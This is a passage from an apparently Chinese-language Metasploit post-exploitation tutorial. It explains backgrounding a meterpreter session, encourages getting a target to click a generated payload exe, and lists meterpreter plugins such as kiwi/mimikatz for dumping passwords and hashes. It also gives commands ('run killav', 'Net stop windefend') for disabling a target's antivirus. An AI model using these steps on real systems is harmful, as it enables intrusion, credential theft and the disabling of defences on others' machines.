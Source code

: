 我们要想从 `meterpreter 退出到MSF框架`，输入：
```
background
```

## 你只要想方设法让他点击到这个exe即可 接下来交给老爹!
 
将生成的exe文件或者其它类型的payload文件在目标上执行，就可以获得一个meterpreter会话，之后就可以使用msf开展后渗透测试的相关工作。

![](img/2.png)

## 可能会用到的常用代码整理

## load -l

查看所有可以使用的插件
```
espia                --侦测脚本
extapi               --营地 
incognito            --假冒他人身份
kiwi                 --转储密码和哈希
lanattacks           
mimikatz             --猕猴桃 这个太著名可以自己搜
peinjector           --投影仪
powershell           --ps脚本
priv
python
sniffer       --网络嗅探器 数据收集
stdapi               --命名空间的漏洞
unhook               --脱钩
winpmem              
```
https://blog.rapid7.com/2018/09/14/metasploit-wrapup-57/

# 第一件事！！！！！

## 关闭杀毒软件 

拿到目标主机的shell后第一件事就是关闭掉目标主机的杀毒软件，通过命令：
```
run  killav
命令行关闭Denfnder：
Net stop windefend
```
